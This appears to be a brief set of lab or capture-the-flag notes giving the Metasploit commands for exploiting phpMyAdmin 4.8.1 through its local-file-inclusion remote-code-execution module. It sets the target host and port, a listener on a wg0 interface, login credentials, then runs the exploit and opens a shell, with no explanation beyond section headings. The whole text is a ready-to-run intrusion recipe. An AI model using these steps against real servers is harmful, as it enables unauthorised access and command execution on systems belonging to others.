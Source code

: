 ## phpmyadmin 4.8.1 exploit
use exploit/multi/http/phpmyadmin_lfi_rce
## Port and host setup
set RHOST <target_ip>
set LHOST wg0
set LPORT <valid_port>
set RPORT <target_port> (80 in this case)
set USERNAME <user_name>
set PASSWORD <user_password>
## Accessing system
exploit
shell

